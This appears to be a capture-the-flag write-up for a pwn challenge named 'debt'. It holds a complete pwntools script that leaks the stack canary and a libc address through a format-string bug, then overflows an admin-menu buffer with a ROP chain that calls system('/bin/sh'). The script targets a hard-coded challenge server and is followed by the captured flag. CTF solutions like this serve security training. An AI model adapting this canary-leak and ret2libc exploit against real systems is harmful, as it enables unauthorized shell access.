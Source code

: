 # debt

There is a buffer overflow in the admin menu. We can leak the canary and the libc address through a formatted string vulnerability when our name is printed.

### Exploit
```py
#!/usr/bin/env python3

from pwn import *

elf = ELF("./debt")
libc = ELF("./libc.so.6",checksec=False)
ld = ELF("./ld-linux-x86-64.so.2",checksec=False)

context.binary = elf
#context.terminal = ['tmux', 'splitw', '-hp', '70']
#context.log_level = "debug"
gs = '''
'''

domain= "161.97.155.116"
port = 48760

def start():
    if args.REMOTE:
        return remote(domain, port)
    if args.GDB:
        return gdb.debug([elf.path], gdbscript=gs)
    else:
        return process([elf.path])
r = start()

#========= exploit here ===================

r.sendlineafter(b"less)?",b"%9$p%31$p")

r.recvuntil(b"Hello, ")
leaks = r.recvline().strip()

canary = int(leaks[:18],16) 
libc.address = int(leaks[18:],16) -0x1e40 - 0x28000  

info("canary: " + hex(canary))
info("libc base address: " + hex(libc.address))
info("SYSTEM: " + hex(libc.symbols['system']))

bin_sh = next(libc.search(b"/bin/sh"))
pop_rdi = libc.address + 0x000000000002a3e5
ret = libc.address + 0x000000000002a3e6

payload = b"A"*56
payload += p64(canary)
payload += p64(0)
payload += p64(pop_rdi) + p64(bin_sh) + p64(ret)
payload += p64(libc.symbols['system'])

r.sendline(b"\n4")
r.sendlineafter(b"access:", payload)
r.interactive()
```

`QnQSec{the_server_is_down:\}`

